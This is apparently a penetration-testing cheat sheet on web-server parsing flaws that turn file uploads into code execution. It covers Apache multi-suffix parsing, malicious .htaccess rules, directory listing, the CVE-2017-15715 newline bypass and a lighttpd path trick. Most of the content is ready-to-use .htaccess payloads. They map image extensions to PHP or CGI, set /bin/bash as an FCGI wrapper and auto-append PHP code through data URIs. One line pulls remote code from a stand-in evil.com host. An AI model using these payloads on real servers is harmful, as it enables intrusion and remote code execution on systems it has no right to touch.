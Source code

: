Apache
========================================

Suffix parsing
----------------------------------------
``test.php.x1.x2.x3`` (x1,x2,x3 is a file type that is not defined in the mime.types file). Apache will judge the suffix from right to left. If x3 is a non-recognizable suffix, judge x2 until a recognizable suffix is found, and then parse the recognizable suffix.

.htaccess
----------------------------------------
Upload .htaccess with parsing rules enabled when AllowOverride is enabled

::

AddType application/x-httpd-php .jpg

::

php_value auto_append_file .htaccess
#<?php phpinfo();

::

Options ExecCGI
AddHandler cgi-script .jpg

::

Options +ExecCGI
AddHandler fcgid-script .gif
FcgidWrapper "/bin/bash" .gif

::

php_flag allow_url_include 1
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://evil.com/evil-code.txt

Directory traversal
----------------------------------------
Apache has a directory traversal vulnerability when configuring ``Options + Indexes`.

CVE-2017-15715
----------------------------------------
``%0A`` Bypass the upload blacklist.

lighttpd
----------------------------------------
``xx.jpg/xx.php``

Reference link
----------------------------------------
- `Apache Upload bypass <https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html>`_
